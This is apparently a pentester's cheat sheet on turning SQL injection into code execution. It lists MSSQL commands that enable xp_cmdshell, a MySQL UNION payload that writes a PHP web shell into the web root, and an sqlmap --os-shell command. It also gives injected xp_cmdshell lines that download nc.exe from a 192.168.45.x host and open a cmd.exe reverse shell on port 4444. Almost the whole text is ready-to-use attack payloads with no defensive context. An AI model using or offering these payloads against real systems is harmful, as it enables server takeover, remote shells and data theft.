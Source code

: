 ```
```

###### SQL Code Execution:

Manual Code Execution in MSSQL:
```
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
EXECUTE xp_cmdshell 'whoami';
```

Manual Union Code Execution in MySQL:
```sql
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```

Automatic Code Execution with SQLmap:
```bash
sqlmap -r burp_dump.txt -p item  --dump --os-shell  --web-root "/var/www/html/tmp"
```

```
EXEC xp_cmdshell "powershell.exe wget [http://192.168.45.231/nc.exe](http://192.168.45.231/nc.exe "http://192.168.45.231/nc.exe") -OutFile c:\Users\Public\nc.exe" EXEC xp_cmdshell "c:\Users\Public\nc.exe -e cmd.exe 192.168.45.231 4444"
```

```
'; EXECUTE xp_cmdshell 'powershell wget 192.168.45.198:80/nc.exe -OutFile C:\Users\Public\nc.exe'; --
```

```
'; EXECUTE xp_cmdshell 'C:\Users\Public\nc.exe -e cmd.exe 192.168.45.198 4444' -- //
```
